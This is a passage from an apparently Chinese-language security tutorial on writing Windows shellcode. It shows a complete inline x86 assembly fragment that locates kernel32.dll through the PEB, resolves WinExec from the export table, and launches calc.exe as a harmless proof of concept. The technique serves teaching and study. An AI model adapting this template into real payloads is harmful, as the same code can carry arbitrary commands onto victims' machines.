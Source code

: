 正常运行效果如图所示。

![image-20211130155814196](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3dc2af6c4d7aea94ade4ee51d2fe9077143c04f5.png)

0x5.4 提取 ShellCode
------------------

整合下上面三小节的内容，可以得到ShellCode内联汇编的完整片段。

```c
    __asm {
        mov ebx, fs:0x30; Get pointer to PEB
        mov ebx, [ebx + 0x0C]; Get pointer to PEB_LDR_DATA
        mov ebx, [ebx + 0x14]; Get pointer to first entry in InMemoryOrderModuleList
        mov ebx, [ebx]; Get pointer to second(ntdll.dll) entry in InMemoryOrderModuleList
        mov ebx, [ebx]; Get pointer to third(kernel32.dll) entry in InMemoryOrderModuleList
        mov ebx, [ebx + 0x10]; Get kernel32.dll base address
        mov edx, [ebx + 3Ch]; EDX = DOS->e_lfanew;
        add edx, ebx; EDX = PE Header;
        mov edx, [edx + 78h]; EDX = Offset export table;
        add edx, ebx; EDX = Export  Table;

        xor ecx, ecx; Set ecx = 0;
        dec ecx; Set ecx = -1;
        mov esi, [edx + 20h];
        add esi, ebx;

    Fetch_Func:
        inc ecx;
        lodsd;
        add eax, ebx;
        ; compare WinExec name;
        cmp dword ptr[eax], 456E6957h; "EniW"
        jnz Fetch_Func;
        cmp dword ptr[eax + 4h], 636578h; "cex"
        jnz Fetch_Func;

        ; Get Ordinal from AddressOfNameOrdinals;
        mov esi, [edx + 24h];
        add esi, ebx;
        mov cx, [esi + 2 * ecx];
        ; Get Address from AddressOfFunctions;
        mov esi, [edx + 1Ch];
        add esi, ebx;
        mov edx, [esi + ecx * 4];
        add edx, ebx; EDX = WinExec Address
        //mov winExec, edx; ; winExec->edx;
        ;WinExec("calc.exe", SW_SHOWDEFAULT)
        xor ebx, ebx;
        push ebx;
        push 6578652Eh; .exe;
        push 636C6163h; calc;
        mov esi, esp;

        push 10;  second param : SW_SHOWDEFAULT;
        push esi; first param : calc.exe;
        call edx; call WinExec
        add esp, 0xc; //clear stack
    }
```
